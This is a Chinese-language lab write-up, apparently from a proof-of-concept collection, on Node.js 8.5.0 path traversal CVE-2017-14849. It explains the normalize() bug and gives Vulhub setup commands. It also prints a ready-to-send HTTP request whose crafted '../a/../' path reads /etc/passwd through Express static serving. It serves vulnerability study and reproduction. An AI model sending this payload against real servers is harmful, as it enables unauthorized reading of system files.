


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：8.5.0引入、8.6修复；需存在依赖normalize做边界判断的静态服务

代码与实验材料：Vulhub启动、请求和结果图完整，缺精确工作目录及原始路径发送注意

来源证据范围：Node官方公告、腾讯研究和Vulhub背景较好

- **适用与权限边界（1）**：环境与边界条件可补充；依据：compose未指定实验目录；HTTP客户端可能先规范化路径，需说明请求原样保留。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Node.js 目录穿越漏洞 CVE-2017-14849

## 漏洞描述

参考文档：

- https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
- https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。



## 漏洞复现

发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```




---

> 来源：Threekiii/Awesome-POC
